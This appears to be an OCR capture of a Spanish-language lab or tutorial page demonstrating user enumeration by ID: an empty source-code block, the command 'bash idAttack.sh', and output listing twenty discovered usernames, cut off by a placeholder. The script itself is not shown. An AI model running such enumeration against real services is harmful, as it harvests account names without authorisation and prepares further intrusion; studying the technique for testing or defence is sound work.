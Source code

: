 ```bash
```

```shell
bash idAttack.sh
```

Info:

```
[*] Enumerando usuarios por ID...
[*] Probando ID: 1
[+] Usuario encontrado: ID=1, username=alice
[*] Probando ID: 2
[+] Usuario encontrado: ID=2, username=bob
[*] Probando ID: 3
[+] Usuario encontrado: ID=3, username=charlie
[*] Probando ID: 4
[+] Usuario encontrado: ID=4, username=diana
[*] Probando ID: 5
[+] Usuario encontrado: ID=5, username=edward
[*] Probando ID: 6
[+] Usuario encontrado: ID=6, username=fiona
[*] Probando ID: 7
[+] Usuario encontrado: ID=7, username=george
[*] Probando ID: 8
[+] Usuario encontrado: ID=8, username=hannah
[*] Probando ID: 9
[+] Usuario encontrado: ID=9, username=ian
[*] Probando ID: 10
[+] Usuario encontrado: ID=10, username=julia
[*] Probando ID: 11
[+] Usuario encontrado: ID=11, username=kevin
[*] Probando ID: 12
[+] Usuario encontrado: ID=12, username=laura
[*] Probando ID: 13
[+] Usuario encontrado: ID=13, username=michael
[*] Probando ID: 14
[+] Usuario encontrado: ID=14, username=nina
[*] Probando ID: 15
[+] Usuario encontrado: ID=15, username=oscar
[*] Probando ID: 16
[+] Usuario encontrado: ID=16, username=paula
[*] Probando ID: 17
[+] Usuario encontrado: ID=17, username=quinn
[*] Probando ID: 18
[+] Usuario encontrado: ID=18, username=rachel
[*] Probando ID: 19
[+] Usuario encontrado: ID=19, username=steven
[*] Probando ID: 20
[+] Usuario encontrado: ID=20, username=tina
..............................<RESTO_CODIGO>.......................................
```
